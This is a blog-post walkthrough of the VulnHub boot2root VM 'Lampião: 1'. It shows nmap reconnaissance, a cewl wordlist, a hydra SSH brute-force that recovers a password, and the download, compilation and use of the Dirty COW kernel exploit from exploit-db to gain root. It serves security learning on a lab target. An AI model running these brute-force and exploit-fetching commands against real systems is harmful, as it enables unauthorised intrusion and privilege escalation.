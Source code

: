 ```yaml
---
layout: post
date: 2018-08-06 10:42:58 +0000
last_modified_at: 2018-08-06 13:22:13 +0000
title: "Lampião: 1 Walkthrough"
subtitle: "Hero or Villain?"
category: Walkthrough
tags: [VulnHub, "Lampiao"]
comments: true
image:
  feature: lampiao-1-walkthrough.jpg
  credit: Voltordu / Pixabay
  creditlink: https://pixabay.com/en/darth-vader-star-wars-geek-1207142/
---
```


This post documents the complete walkthrough of Lampião: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

"Captain" Virgulino Ferreira da Silva, better known as **Lampião**, was the most famous bandit leader of the Cangaço. The aim is to get `root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?   syn-ack ttl 64
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

`nmap` finds `22/tcp`, `80/tcp` and `1898/tcp` open—and there's something interesting behind `80/tcp`.

![Son of a Bitch](/assets/images/posts/lampiao-1-walkthrough/8b3f5f0a.png)

"Fi duma égua" is a not-so-elegant word for referring to someone. I leave it for the curious reader to find out what it means. :laughing:

## Drupal

Another service worth exploring is Drupal, which runs behind `1898/tcp`. Here's how it looks like.

![Drupal](/assets/images/posts/lampiao-1-walkthrough/5e40c98e.png)

To be honest, I'm always excited to see non-English language in display because that means I can generate a wordlist from it. There's always a high chance of getting a password judging from my experience.

Let's use `cewl` to generate a wordlist from the post "**Lampião, herói ou vilão do Sertão?**". The command goes like this.

```
# cewl -w cewl.txt http://192.168.10.130:1898/?q=node/1
# wc -l cewl.txt
835 cewl.txt
```

## Hail Hydra

Notice the two usernames below: `tiago` and `eder`.

![Usernames](/assets/images/posts/lampiao-1-walkthrough/ba3ec0df.png)

Let's put them into a username list and go with `hydra` and the generated wordlist. Perhaps we can get lucky with SSH on our first attempt?

```
# echo tiago > usernames.txt
# echo eder >> usernames.txt
# hydra -L usernames.txt -P cewl.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.10.130
[22][ssh] host: 192.168.10.130   login: tiago   password: Virgulino
[STATUS] attack finished for 192.168.10.130 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Lucky indeed.

## Low-Privilege Shell

Not too shabby.

![shell](/assets/images/posts/lampiao-1-walkthrough/bd92b620.png)

## Privilege Escalation

Let's perform some basic enumeration to determine what we're dealing with.

```
$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```

I'm going to use a [script](https://github.com/mzet-/linux-exploit-suggester) to suggest a couple of local privilege escalation exploits relevant to the distribution and kernel.

```
$ wget -q -O /tmp/linux-exploit-suggester.sh https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
$ chmod +x /tmp/linux-exploit-suggester.sh
$ /tmp/linux-exploit-suggester.sh
...
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Let's test the exploit out.

```
$ wget -q -O /tmp/40847.cpp https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![root](/assets/images/posts/lampiao-1-walkthrough/46ebbd22.png)

Boom.

## What's the Flag (WTF)?

![Flag](/assets/images/posts/lampiao-1-walkthrough/caa45484.png)

:dancer:

I wonder what's the significance of `lampiao.jpg` to the flag. Here's what `lampiao.jpg` looks like.

![Lampião](/assets/images/posts/lampiao-1-walkthrough/lampiao.jpg)

## Afterthought

The VM isn't hard. Don't think too deep, too far. Don't go down the rabbit hole. Tiago (the creator of this VM) laid down a bunch of teasers that may steer you off course.

One good example is `qrc.png` in the Drupal home directory.

![qrc.png](/assets/images/posts/lampiao-1-walkthrough/qrc.png)

It was decoded to "Try harder! muahuahua" :unamused:

Another example was the removal of read permissions of `/etc/cangaco/lampiao.*`. That's a good one. It piqued my curiosity so much I almost pulled out all my hair trying to read them.

[1]: https://www.vulnhub.com/entry/lampiao-1,249/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/

